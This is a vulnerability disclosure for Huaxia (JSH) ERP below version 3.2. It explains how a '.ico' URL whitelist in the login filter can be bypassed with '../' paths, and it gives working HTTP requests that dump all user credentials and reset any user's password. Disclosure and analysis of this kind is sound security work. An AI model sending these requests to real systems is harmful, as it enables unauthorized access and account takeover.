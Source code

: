 ### Logic loopholes in Huaxia ERP can lead to unauthorized access

### Author: heishou

### project address

### https://gitee.com/jishenghua/JSH_ERP/

### Affected version

<3.2。

### Vulnerability analysis 

### Log in as administrator.

![img](https://cdn-images-1.medium.com/max/900/0*SbqcaCPbyDRjorBe)

Open a new private browser access.

![img](https://cdn-images-1.medium.com/max/900/0*99wmehFCxILvFf-g)

Access the /user/getAllList interface and find that Logout is returned. Indicates that user verification exists.

![img](https://cdn-images-1.medium.com/max/900/0*v5ouUVIO4PuGs-PO)

Construct the following data packet for the interface：

```
GET /jshERP-boot/user/a.ico/../getAllList HTTP/1.1
Host: 127.0.0.1:3000
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8
Purpose: prefetch
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

Construct /user/getAllList malicious data packet, send the packet successfully, and you can obtain user account password and other data.

![img](https://cdn-images-1.medium.com/max/900/0*oG86UklLgdHc5HLM)

Construct the /user/resetPwd interface

```
POST /jshERP-boot/a.ico/../user/resetPwd HTTP/1.1
Host: 127.0.0.1:3000
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8
Purpose: prefetch
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 10
{"id":148}
```

![img](https://cdn-images-1.medium.com/max/900/0*m4oE-kcxY3_3kzsF)

### code analysis

###  

There is a predefinition of the parameter ignoredUrl in the LogCostFilter method located in src/main/java/com/jsh/erp/filter/LogCostFilter.java. The predefined value is a regular method. Can bypass login permission verification. Direct access to all system interfaces. The /user/getAllList interface can obtain all user accounts and passwords. The /user/resetPwd interface can reset the password of any user.

![img](https://cdn-images-1.medium.com/max/900/0*U_kJcymynwLDiYvd)

The existence of ignoredUrl will be verified in the init function. If it is not equal to empty, some operations will be performed on ignoredPath. This code has no practical effect here. At this time ignoredList is [“.ico”]

![img](https://cdn-images-1.medium.com/max/900/0*R2tw-wIJtHxpKaOI)

Regular matching of requestUrl through the verify() function

![img](https://cdn-images-1.medium.com/max/900/0*d1hpgyL94Ey-sg8n)

In the call site of the verify() function, the return value is true. Then enter chain.dofilter(). If false, continue. There is only one filter in the program itself that means release. After release, jump to the upper-level directory through “../”.